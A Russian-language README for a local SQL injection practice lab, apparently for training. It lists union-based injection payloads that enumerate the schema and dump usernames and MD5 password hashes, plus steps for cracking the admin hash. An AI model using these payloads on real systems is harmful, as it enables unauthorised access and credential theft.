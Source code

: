 # SQLInjectionsAndHashPractise
Проект для практики по SQL 
инъекциям и расшифровки паролей, 
представленных в виде хешей.

Для запуска данного проекта потребуется:

1) Любая среда разработки под Java (JDK и JRE, версия java 7 и старше)

2) БД MySQL (использовавлась версия 5.6)

3) Любой apllication server (Для запуска использовался контейнер сервлетов Tomcat версии 8.0.18)

Подготовительный этап:

Перед запуском приложения необходимо испортировать схему в БД MySQL. Файл injection_practise_db_dump.sql.

Запуск и работа с прложением:

После запуска приложения переходим на localhost с указанием порта, на который мы развернули application server (или servlet's 
container). После открытия главной страницы приложения переходим по ссылке Example 1: Login form видим форму, предназначенную
для входа пользователя. Известно, что есть пользователь с логином user и паролем password, за которого можно войти в 
приложение и убедиться в его работоспособности (сообщение "Hello, user! Log out").

Задача:

Данная форма уязвима к SQL инъекциям. С их помощью следует получить список всех пользователей и хеши их паролей.
Далее необходимо определить пароль пользователя "admin" и войти в систему как администратор.

Возможный алгоритм решения:

  SQL инъекции:
  
	1)  Проверим наличие уязвимости к SQL инъекциям.
	(Ввести символ ' в поле Username, чтобы увидеть сообщение об ошибке);
	
	2)  Написать вилидный SQL запрос 
	(чтобы не было сообщения об SQL ошибке, например a' or '1' = ' )
	
	3)  Подбираем количество столбцов с помощью чисел: 
	
    	a' union select 1 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2,3 from information_schema.TABLES where '1' = '1' or '1' = '
    	
  	4)  Попробовать узнать прочую информацию:
    	
    	a' union select 1,version(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,user(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,database(),3 from users where '1' = '1' or '1' = '
	
	5)  Зная название базы узнаем названием таблиц в ней:

	    a' union SELECT 1,TABLE_NAME,3 from information_schema.TABLES WHERE TABLE_SCHEMA = 'sql_injection_practise' or '1' = '
  
  	6)  Теперь надо узнать имена столбцов:
	
	    a' union SELECT 1,group_concat(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'sql_injection_practise' AND TABLE_NAME = 'users' or '1' = '
	
	7)  Пытаемся получить содержимое таблицы users: 
	
	a' union select 1,2,3 from users where '1' = '1' or '1' = '
	
	8) Теперь можно достать информацию из базы о пользователе: 
    	
    	a' union select 1,nick,3 from users where '1' = '1' or '1' = '
    	a' union select 1,username,3 from users where '1' = '1' or '1' = '
    	a' union select 1,password,3 from users where '1' = '1' or '1' = '
	
	Прочие примеры:
	
	    Можно экспериментировать с условиями:
    	
	    	a' union select 1,username,3 from users where id_user = 1 or '1' = '
	    	a' union select 1,username,3 from users where id_user = 1 or true -- 
	    	a' union select 1,username,3 from users where id_user = 1 or true --  
	      
      Объединить несколько полей в одном:
	    	
	    	a' union select 1,group_concat(concat(username, 0x3a, password)),3 from users where '1' = '1' or '1' = '
	
  Определение пароля по значению хеш функции:
  
  Для определения пароля по его хеш функции следует:
  
  1) Определить, каким алгоритмом захеширован пароль (Подсказка: в данной работе использовавлся алгоритм md5 (без "соли"))
  2) Попробовать поискать хеш по базам хешей, например: http://www.md5online.org/md5-decrypt.html 
  3) Полный перебор (Например, программа Bars: http://3.14.by/ru/md5)
  

